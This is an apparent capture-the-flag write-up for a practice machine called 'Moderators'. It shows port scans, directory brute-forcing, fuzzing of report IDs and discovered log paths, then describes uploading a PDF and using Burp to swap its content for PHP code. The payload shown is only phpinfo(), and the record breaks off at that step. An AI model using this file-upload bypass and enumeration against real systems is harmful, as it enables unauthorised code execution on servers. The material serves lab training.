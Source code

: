 ```console
└─$ nmap -A -p- -T4 -Pn 10.129.99.138     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-07 11:29 CDT
Nmap scan report for 10.129.99.138
Host is up (0.067s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 39:03:16:06:11:30:a0:b0:c2:91:79:88:d3:93:1b:3e (RSA)
|   256 51:94:5c:59:3b:bd:bc:b6:26:7a:ef:83:7f:4c:ca:7d (ECDSA)
|_  256 a5:6d:03:fa:6c:f5:b9:4a:a2:a1:b6:bd:bc:60:42:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Moderators
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 674.55 seconds
zsh: segmentation fault  nmap -A -p- -T4 -Pn 10.129.99.138
```

```console
└─$ feroxbuster -u http://10.129.99.138 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git -q
200      GET      295l      683w        0c http://10.129.99.138/
403      GET        9l       28w      278c http://10.129.99.138/.php
403      GET        9l       28w      278c http://10.129.99.138/.html
301      GET        9l       28w      313c http://10.129.99.138/logs => http://10.129.99.138/logs/
200      GET      283l      990w        0c http://10.129.99.138/blog.php
301      GET        9l       28w      315c http://10.129.99.138/images => http://10.129.99.138/images/
200      GET      318l      612w        0c http://10.129.99.138/about.php
301      GET        9l       28w      312c http://10.129.99.138/css => http://10.129.99.138/css/
200      GET      267l      555w        0c http://10.129.99.138/contact.php
200      GET      295l      683w        0c http://10.129.99.138/index.php
302      GET      226l      417w     7888c http://10.129.99.138/reports.php => index.php
200      GET      249l      596w        0c http://10.129.99.138/service.php
301      GET        9l       28w      317c http://10.129.99.138/logs/css => http://10.129.99.138/logs/css/
301      GET        9l       28w      320c http://10.129.99.138/images/blog => http://10.129.99.138/images/blog/
301      GET        9l       28w      321c http://10.129.99.138/logs/uploads => http://10.129.99.138/logs/uploads/
200      GET        0l        0w        0c http://10.129.99.138/logs/index.html
200      GET        0l        0w        0c http://10.129.99.138/images/index.html
200      GET        0l        0w        0c http://10.129.99.138/css/index.html
403      GET        9l       28w      278c http://10.129.99.138/logs/.php
403      GET        9l       28w      278c http://10.129.99.138/logs/.html
200      GET        0l        0w        0c http://10.129.99.138/logs/uploads/index.html
200      GET        0l        0w        0c http://10.129.99.138/images/blog/index.html
200      GET        0l        0w        0c http://10.129.99.138/logs/css/index.html
403      GET        9l       28w      278c http://10.129.99.138/images/.php
403      GET        9l       28w      278c http://10.129.99.138/images/.html
403      GET        9l       28w      278c http://10.129.99.138/server-status
302      GET        0l        0w        0c http://10.129.99.138/send_mail.php => /contact.php?msg=Email sent
Scanning: http://10.129.99.138
Scanning: http://10.129.99.138/
Scanning: http://10.129.99.138/logs
Scanning: http://10.129.99.138/images
Scanning: http://10.129.99.138/css
Scanning: http://10.129.99.138/logs/css
Scanning: http://10.129.99.138/images/blog
Scanning: http://10.129.99.138/logs/uploads
```

```console
└─$ ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt  -u http://10.129.99.138/reports.php?report=FUZZ -v -fs 0 -fw 3091 -fc 302 -c -s
2589
3478
4221
7612
8121
9798
```

```
 Report #9798

# Disclosure Information [+] Domain : bethebest101.uk.htb
[+] Vulnerability : Sensitive Information Disclosure
[+] Impact : 3.5/4.0
[+] Disclosed by : Karlos Young
[+] Disclosed on : 11/19/2021
[+] Posted on :
[+] Approved :
[+] Patched : NO
[+] LOGS : logs/e21cece511f43a5cb18d4932429915ed/
```

```
└─$ feroxbuster -u http://10.129.99.138/logs/e21cece511f43a5cb18d4932429915ed -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git,pdf -q
301      GET        9l       28w      346c http://10.129.99.138/logs/e21cece511f43a5cb18d4932429915ed => http://10.129.99.138/logs/e21cece511f43a5cb18d4932429915ed/
403      GET        9l       28w      278c http://10.129.99.138/logs/.php
403      GET        9l       28w      278c http://10.129.99.138/logs/.html
200      GET      219l      806w    10059c http://10.129.99.138/logs/e21cece511f43a5cb18d4932429915ed/logs.pdf
200      GET        0l        0w        0c http://10.129.99.138/logs/e21cece511f43a5cb18d4932429915ed/index.html
Scanning: http://10.129.99.138/logs/e21cece511f43a5cb18d4932429915ed
```

e21cece511f43a5cb18d4932429915ed=9798
743c41a921516b04afde48bb48e28ce6=2589
b071cfa81605a94ad80cfa2bbc747448=3478
b071cfa81605a94ad80cfa2bbc747448=4221
ce5d75028d92047a9ec617acb9c34ce6=7612
afecc60f82be41c1b52f6705ec69e0f1=8121

http://moderators.htb/logs/743c41a921516b04afde48bb48e28ce6/logs.pdf

Logs
[01/30/2021] Log file created for report #2589.
[01/30/2021] Report submitted by Sharaf Ahamed.
[02/03/2021] Report accepted.
[02/03/2021] LOG file uploaded from /logs/report_log_upload.php
[02/04/2021] Reported to the site administrators.
[02/05/2021] Posting approval sent to the owners.
[02/07/2021] Approval pending......






Wget one of the logs.pdf files and upload it from the page.

Then capture in burpsuite and edit out the pdf content with our own payload.



![image](https://user-images.githubusercontent.com/105310322/194648359-03a0333b-00f3-467f-9306-0353c31b93fe.png)



<?php
phpinfo();

![image](https://user-images.githubusercontent.com/105310322/194648168-1e62ad99-1e4f-4fe7-993b-7bdf3a2a6a34.png)
